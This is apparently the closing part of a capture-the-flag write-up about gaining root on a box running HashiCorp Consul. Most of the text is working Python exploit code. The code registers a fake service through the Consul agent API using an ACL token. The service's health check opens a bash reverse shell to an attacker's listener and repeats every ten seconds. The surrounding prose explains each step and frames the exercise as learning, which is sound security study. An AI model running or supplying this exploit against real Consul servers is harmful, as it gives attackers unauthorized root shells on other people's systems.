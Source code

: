 It worked! We succesfuly got root access to this box.                          
## Explenation of exploit                  
This exploit is crafting a fake service with malicious health check, this health check executes payload with reverse shell as root. Here is breakdown of code:                 
### Taking user input:
```
rhost = input("\n[+] Enter the target: ")
rport = input("\n[+] Enter the listener port: ")
lhost = input("\n[+] Enter the listener IP: ")
lport = input("\n[+] Enter the listener port: ")
acl_token = input("\n[+] Enter the ACL token: ")
```
### Crafting request:
```
target = f"http://{rhost}:{rport}/v1/agent/service/register"
headers = {"X-Consul-Token": acl_token}
```
### Payload(reverse shell):
```
json = {
    "Address": "127.0.0.1",
    "check": {
        "Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"],
        "interval": "10s",
        "Timeout": "864000s",
    },
    "ID": "test",
    "Name": "test",
    "Port": 80
}
```
It runs every 10 seconds, convenient when shell is dropped
### Sending exploit:
```
requests.put(target, headers=headers, json=json)
print("\n[+] Request sent successfully, check your listener......\n")
```
## Conclusion
This was interesting, user was easy but root took me some time, i learned how Consul works and how to exploit it to escalate privleges. Hope you also learned something new, have good day and good luck on your next challenges!
